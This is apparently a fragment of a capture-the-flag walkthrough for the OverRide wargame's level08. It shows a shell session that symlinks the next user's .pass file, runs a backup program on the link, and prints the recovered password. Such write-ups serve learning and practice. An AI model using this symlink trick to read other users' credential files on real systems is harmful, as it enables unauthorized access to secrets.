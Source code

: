 level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ ln -s /home/users/level09/.pass prout
level08@OverRide:~$ ls
backups  level08  prout

level08@OverRide:~$ ./level08 prout
level08@OverRide:~$ cat backups/prout

fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S